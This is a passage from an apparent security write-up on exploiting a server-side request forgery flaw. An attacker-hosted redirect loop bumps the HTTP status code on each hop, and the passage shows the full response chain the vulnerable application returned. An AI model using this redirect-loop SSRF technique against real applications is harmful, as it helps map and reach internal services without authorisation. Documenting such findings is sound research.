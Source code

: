 The above code performs a redirect loop, incrementing the HTTP status code on each subsequent request. When exploiting the SSRF issue by pointing it to a URL hosting the above logic, the application responded with the full HTTP redirect chain and responses:

```http hljs
HTTP/1.1 305 USE PROXY
Date: Sun, 01 Jun 2025 02:43:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=4

HTTP/1.1 306 SWITCH PROXY
Date: Sun, 01 Jun 2025 02:43:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=5

HTTP/1.1 307 TEMPORARY REDIRECT
Date: Sun, 01 Jun 2025 02:43:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=6

HTTP/1.1 308 PERMANENT REDIRECT
Date: Sun, 01 Jun 2025 02:43:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=7

HTTP/1.1 309 UNKNOWN
Date: Sun, 01 Jun 2025 02:43:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=8

HTTP/1.1 310 UNKNOWN
Date: Sun, 01 Jun 2025 02:43:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=9

HTTP/1.1 302 FOUND
Date: Sun, 01 Jun 2025 02:43:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 225
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: https://example.com

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Type: text/html
```